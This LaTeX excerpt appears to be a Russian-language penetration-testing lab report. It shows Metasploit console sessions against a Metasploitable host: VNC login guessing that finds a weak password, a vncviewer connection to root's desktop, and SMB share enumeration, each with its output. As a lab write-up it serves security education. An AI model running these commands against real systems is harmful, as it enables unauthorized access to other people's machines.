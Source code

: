 \documentclass[10pt,a4paper]{report}
\begin{document}
\begin{verbatim}
msf > use auxiliary/scanner/vnc/vnc_login

msf auxiliary(vnc_login) > set RHOSTS 192.168.0.103
RHOSTS => 192.168.0.103

msf auxiliary(vnc_login) > exploit

[*] 192.168.0.103:5900 - Starting VNC login sweep
[+] 192.168.0.103:5900 - LOGIN SUCCESSFUL: :password
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(vnc_login) > vnsviewer 192.168.0.103:5900
[-] Unknown command: vnsviewer.
msf auxiliary(vnc_login) > vncviewer 192.168.0.103:5900
[*] exec: vncviewer 192.168.0.103:5900

Connected to RFB server, using protocol version 3.3
Performing standard VNC authentication
Password: 
Authentication successful
Desktop name "root's X desktop (metasploitable:0)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using shared memory PutImage
ShmCleanup called
\end{verbatim}
Удалось успешно подключиться к серверу и получить доступ  к консоли (рисунок \ref{ris:img13} ) 
\begin{figure}[h]
\caption{Подключение к VNC серверу}
\label{ris:img13}  
\end{figure}

\subsubsection{Получение списка директорий в общем доступе по протоколу SMB}
Для данной цели используем эксплоит auxiliary/scanner/smb/smb\_enumshares.
\begin{verbatim}
msf > use auxiliary/scanner/smb/smb_enumshares

msf auxiliary(smb_enumshares) > set RHOSTS 192.168.0.103
RHOSTS => 192.168.0.103
msf auxiliary(smb_enumshares) > exploit

[+] 192.168.0.103:139 - print$ - (DISK) Printer Drivers
[+] 192.168.0.103:139 - tmp - (DISK) oh noes!
[+] 192.168.0.103:139 - opt - (DISK) 
[+] 192.168.0.103:139 - IPC$ - (IPC) IPC Service (metasploitable server (Samba 3.0.20-Debian))
[+] 192.168.0.103:139 - ADMIN$ - (IPC) IPC Service (metasploitable server (Samba 3.0.20-Debian))
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{verbatim}
Модуль показал, какие директории доступны для службы SMB для чтения / записи. 
\end{document}

